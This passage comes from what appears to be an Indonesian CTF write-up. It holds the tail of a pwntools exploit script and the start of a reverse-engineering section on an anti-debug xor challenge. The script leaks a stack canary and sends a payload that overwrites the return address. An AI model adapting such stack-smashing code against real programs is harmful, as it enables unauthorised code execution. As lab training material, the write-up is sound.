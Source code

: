 ```python
            else:
                attach(self.p)


x, p = init()
x.debug((
    # "break *gimme_pointer+148\nc\nc"
    "finish"
))
p.recvuntil(b"here: ")
leak = eval(p.recvline().strip())
info(f"{leak=:x}")
canary_addr = leak+(24)
info(f"{canary_addr=:x}")
canary_addr = long_to_bytes(canary_addr)[::-1]
canary_addr = bytes_to_long(canary_addr)
p.send(b""+hex(canary_addr).replace("0x", "").encode()+b"00")

p.recvline()
p.recvline()
canary = eval(b"0x"+p.recvline())
canary = long_to_bytes(canary)[::-1]+b"\x00"
canary = bytes_to_long(canary)
canary = canary
info(f"{canary=:x}")

pay = b""+hex(canary_addr).replace("0x", "").encode()+b"0000"
pay += cyclic(8)
pay += p64(canary)
pay += cyclic(8)
pay += b"\xf7\x08"
p.send(pay)
# print(p.recvall(timeout=2))
p.interactive()
```

# Rev
---
## ez-pz-xor
### TL;DR
Challenge ini sedikit tricky karena menerapkan teknik anti debugger menggunakan ptrace untuk mengubah xor key, sehingga saat program di debug akan berbeda keynya dengan program yang di jalankan dengan biasa

### How To Solve
Untuk menyelesaikan challenge ini kita perlu unutuk mendapatkan xor key yang sebenarnya, ini bisa kita dapatkan di fungsi __do_global_ctor_aux

